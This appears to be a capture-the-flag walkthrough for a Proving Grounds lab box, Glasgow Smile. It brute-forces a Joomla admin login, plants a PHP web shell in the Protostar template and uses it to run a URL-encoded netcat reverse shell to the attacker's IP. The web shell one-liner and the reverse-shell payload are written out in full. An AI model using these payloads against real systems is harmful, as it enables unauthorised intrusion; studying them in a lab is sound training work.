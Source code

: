 ```yaml
---
layout: default
title: Joomla
parent: Web Exploits
nav_order: 8
---
```


# Joomla

---

## Brute force the Joomla admin login

Use Cewl to generate custom wordlist.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ cewl http://192.168.202.79/joomla/ -w joker.txt
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

```

Using the username _joomla_ we brute force in with the password _Gotham_

![password](../../../../assets/images/ctfs/proving_grounds/glasgowsmile/password.png)

![logon](../../../../assets/images/ctfs/proving_grounds/glasgowsmile/logon.png)

## Exploit Protostar Template for Reverse Shell

Select Templates > Templates > ProtoStar

![protostar](../../../../assets/images/ctfs/proving_grounds/glasgowsmile/protostar.png)

Create new file.

![new](../../../../assets/images/ctfs/proving_grounds/glasgowsmile/new.png)

![file](../../../../assets/images/ctfs/proving_grounds/glasgowsmile/file.png)

Use the following PHP web shell one-liner.

```bash
<?= system($_GET['cmd']); ?>
```

![cmd](../../../../assets/images/ctfs/proving_grounds/glasgowsmile/cmd.png)

![id](../../../../assets/images/ctfs/proving_grounds/glasgowsmile/id.png)

Generate the revshell and urlencode

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Run the following payload in the URL

```bash
http://192.168.202.79/joomla/templates/protostar/cmd.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl
```

We get a reverse shell

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.202.79] 37924
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
